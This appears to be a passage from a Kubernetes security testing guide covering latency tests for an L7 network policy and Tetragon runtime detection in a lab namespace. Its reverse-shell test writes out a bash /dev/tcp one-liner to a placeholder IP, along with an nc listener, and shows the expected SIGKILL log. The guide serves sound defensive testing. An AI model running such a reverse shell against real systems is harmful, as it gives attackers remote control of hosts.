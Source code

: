 ### Performance Testing

**Measure Latency Impact:**

```bash
# Before L7 policy
kubectl run perf-test --image=fortio/fortio -n security-test -- \
  load -c 10 -qps 0 -t 30s http://backend

# Deploy L7 policy, then test again
kubectl run perf-test --image=fortio/fortio -n security-test -- \
  load -c 10 -qps 0 -t 30s http://backend

# Compare p50, p99 latency
# Target: <10ms increase
```

---

## 3️⃣ Tetragon Runtime Security Testing

### Setup Attack Simulation Environment

```bash
# Deploy vulnerable test pod
kubectl run attack-sim --image=nicolaka/netshoot --labels=app=attack-sim -n security-test -- sleep infinity
```

### Test 1: Reverse Shell Detection

**Attempt Reverse Shell (WILL BE BLOCKED):**

```bash
# Set up listener on your machine (for testing only!)
nc -lvnp 4444 &

# Attempt reverse shell from pod
kubectl exec -n security-test attack-sim -- bash -c "bash -i >& /dev/tcp/YOUR_IP/4444 0>&1"

# Expected: Process killed by Tetragon
# Error: command terminated with exit code 137 (SIGKILL)
```

**Verify Detection:**

```bash
# Check Tetragon logs
kubectl logs -n tetragon-system daemonset/tetragon --since=1m | \
  jq 'select(.policy_name == "detect-reverse-shell")'

# Expected output:
# {
#   "process_exec": {
#     "process": {
#       "binary": "/bin/bash",
#       "arguments": "-c bash -i ..."
#     }
#   },
#   "policy_name": "detect-reverse-shell",
#   "action": "Sigkill"
# }
```
